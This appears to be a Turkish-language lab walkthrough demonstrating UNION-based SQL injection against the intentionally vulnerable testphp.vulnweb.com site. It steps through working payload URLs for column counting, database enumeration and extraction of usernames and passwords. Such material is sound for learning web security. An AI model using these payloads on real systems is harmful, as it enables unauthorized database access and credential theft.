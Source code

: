 `http://testphp.vulnweb.com/listproducts.php?cat=1`

GET isteği ile birlikte cat değerini alarak kategorize etmektedir. 

`http://testphp.vulnweb.com/listproducts.php?cat=1'` url adresini bu şekilde düzenleyip gönderdiğimizde  aşağıda görüldüğü gibi SQL syntax hatası vermektedir. 

![[Pasted image 20241112230956.png]]


`http://testphp.vulnweb.com/listproducts.php?cat=1%20OR%201=1` url adresini bu şekilde güncellediğimizde cat=1 değerine ait tüm veriler geldi.
![[Pasted image 20241112231326.png]]


Alternatif olarak eğer 

`http://testphp.vulnweb.com/listproducts.php?cat=1-` böyle bir istek gönderseydik yine syntax hatası alacaktık. Fakat `http://testphp.vulnweb.com/listproducts.php?cat=1--` gönderirsek '--' yorum satırı olarak algılanacağından yine aynı noktaya gelip kategori 1'e ulaşacağız. 


`ORDER BY ` komutu sqli için kritiktir. Order by komutu ile kolon miktarı tespit edilebilir . Unıon tabanlı SQLi için önemlidir çünkü unıon tabanlı sqli gerçekleşebilmesi için iki tablonun kolon sayısı miktarının eşit olması gerekir. 

Order by 1,2,3,4... gibi hata alınana kadar denenir. 

```
http://testphp.vulnweb.com/listproducts.php?cat=1 ORDER BY 1--
http://testphp.vulnweb.com/listproducts.php?cat=1 ORDER BY 2--
http://testphp.vulnweb.com/listproducts.php?cat=1 ORDER BY 3--
http://testphp.vulnweb.com/listproducts.php?cat=1 ORDER BY 4--
```


`http://testphp.vulnweb.com/listproducts.php?cat=1%20ORDER%20BY%20%2012%20--` 

Order by 12 de aşağıda ki hata alınmıştır. Böylelikle kolon sayısı 11 olarak tespit edilmiştir. 

```
Error: Unknown column '12' in 'order clause' Warning: mysql_fetch_array() expects parameter 1 to be resource, boolean given in /hj/var/www/listproducts.php on line 74
```

`testphp.vulnweb.com/listproducts.php?cat=-1%20UNION%20SELECT%201,2,3,4,5,6,7,8,9,10,11--` şeklinde `UNION` operatörü ile SQLi payloadumuzu bu şekilde güncellediğimizde, aşağıdaki resimde gösterilen gibi bir çıktı almaktayız.

![[Pasted image 20241113000524.png]]

Buradan anlayacağımız 11,7,2 ve 9 kolonları aracılığıyla veri çıkartma işlemi yapabiliriz. 

`http://testphp.vulnweb.com/listproducts.php?cat=-1%20UNION%20SELECT%201,2,3,4,5,6,7,8,9,10,@@version--`

![[Pasted image 20241113001147.png]]

Bunun gibi kullanıalbilecek diğer komutlar 

- @@hostname
- @@log
- database()
- version()
- system_user()
- table_name()

`http://testphp.vulnweb.com/listproducts.php?cat=-1%20UNION%20SELECT%201,2,3,4,5,6,7,8,9,10,table_name%20from%20INFORMATION_SCHEMA.TABLES%20where%20table_schema=%27acuart%27--``


İsteğimizde bulunan sqli payladımızı bu şekilde güncelliyoruz ve veritabanında bulunan tablolarla alakalı bilgi ediniyoruz.


![[Pasted image 20241113002126.png]]

Kullanıcılar ile alakalı verilerin tutulduğu tablonun adını tespit etmiş olduk. Bu tablo adını kullanarak içeride bulunan kolon adlarını tespit etmek için aşağıda bulunan isteği gönderiyoruz. 

`http://testphp.vulnweb.com/listproducts.php?cat=-1%20UNION%20SELECT%201,column_name,3,4,5,6,7,8,9,10,11%20from%20INFORMATION_SCHEMA.COLUMNS%20where%20table_schema=%27acuart%27%20and%20table_name=%27users%27--`![[Pasted image 20241113002336.png]]


Kolon adları, tablo adı ve database adı mevcut şimdi tüm kullanıcların kullanıcı adı ve parolalarını alacağız. 

`http://testphp.vulnweb.com/listproducts.php?cat=-1%20UNION%20SELECT%201,uname,3,4,5,6,7,8,pass,10,11%20from%20users--``
Klasik bir sql sorugusu ile tabloda bulunan kullanıcıyı aldık .

![[Pasted image 20241113002537.png]]
